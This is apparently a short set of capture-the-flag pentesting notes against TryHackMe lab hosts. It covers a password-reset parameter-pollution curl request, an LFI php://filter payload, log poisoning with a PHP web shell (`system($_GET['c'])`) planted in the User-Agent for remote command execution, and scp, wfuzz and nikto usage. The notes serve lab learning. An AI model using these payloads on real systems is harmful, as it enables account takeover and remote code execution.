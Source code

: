   ```bash
  curl 'http://10.10.165.153/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=steve@customer.acmeitsupport.thm'
  ```

## LFI

If php filter exists: `http://<ip>/?view=php://filter/convert.base64-encode/resource=index`

### FLI2RCE(Log Poisoning)

Burp suit to catch GET request, access to /var/log/apache2/access.log and change user agent to `<?php system($_GET['c']); ?>`

And then, execute commands with url. 

Ex. `?view=../../../../var/log/apache2/cat/../access.log&ext&c=ls`

## RFI

If already complete log poisoning, do `curl http://<ip>:<port>/<file> -o <file>` to download files.



## Tools

### SCP (Secure copy via ssh)

- copy from REMOTE to LOCAL

  ```bash
  scp <user>@<remote_IP>:<path> <local_path>
  ```

- copy from LOCAL to REMOTE

  ```bash
  scp <loacl_path> <user>@<remote_IP>:<path>
  ```




### wfuzz (scan subdomain)

```bash
wfuzz -c -f subdomains.txt -w ../../Tools/wordlists/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hw 290
```



### Nikto

vulnerability scanner

```bash
nikto -h <ip>
```
